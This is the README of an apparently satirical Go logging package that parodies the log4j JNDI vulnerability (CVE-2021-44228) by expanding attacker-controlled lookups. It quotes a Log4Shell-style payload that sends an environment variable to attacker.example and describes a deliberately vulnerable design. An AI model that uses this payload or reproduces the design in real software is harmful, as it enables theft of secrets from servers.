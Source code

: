 # an irresponsibly bad logging library

Is [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) making you feel left out as a Go programmer?

Fear not. We can fix that.

I wouldn't use this package, but if you want to...

```go
package main

import "github.com/bradfitz/jndi"

var logger = jndi.NewLogger()

func main() {
	//...
}

func handleSomeTraffic(r *request) {
        logger.Printf("got request from %s", r.URL.Path)
}
```

Congrats, the user actually wrote `${jndi:ldap://attacker.example/${env:${lower:u}ser}}` and
the logger expanded your environment variable and sent it over the network
as a side-effect of logging.

## Bugs

This package is incomplete. log4j actually does a bunch more:

* https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution
* https://logging.apache.org/log4j/2.x/manual/lookups.html

Patches welcome to help flesh this package out. We've got some
catching up to do.
